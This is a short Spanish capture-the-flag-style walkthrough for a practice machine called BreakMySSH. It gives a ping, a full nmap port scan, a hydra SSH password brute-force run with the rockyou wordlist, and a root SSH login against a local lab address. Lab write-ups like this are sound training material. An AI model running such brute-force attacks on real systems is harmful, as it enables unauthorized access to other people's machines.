 Maquina: BreakMySSH

Autor: El Pinguino de Mario 

Dificultad: Muy Facil

![Screenshot 2024-11-09 085848](https://github.com/user-attachments/assets/4ff00858-dc5a-4f7a-be46-5fdc7ec2e371)

ping 172.17.0.2 -c 1

![Screenshot 2024-11-09 085907](https://github.com/user-attachments/assets/ae993390-bc0c-4de9-a6ee-c27b713cacd5)

nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

![Screenshot 2024-11-09 085924](https://github.com/user-attachments/assets/236f9ecd-db5a-4a22-89e3-c77f66ec8b03)

sudo hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2 -t 10 -I

![Screenshot 2024-11-09 090043](https://github.com/user-attachments/assets/ccc6482c-6df9-4e14-a825-92386b112bf1)

ssh root@172.17.0.2

whoami

![Screenshot 2024-11-09 090137](https://github.com/user-attachments/assets/3becc565-b799-485c-a6a4-7c3a28ed62da)
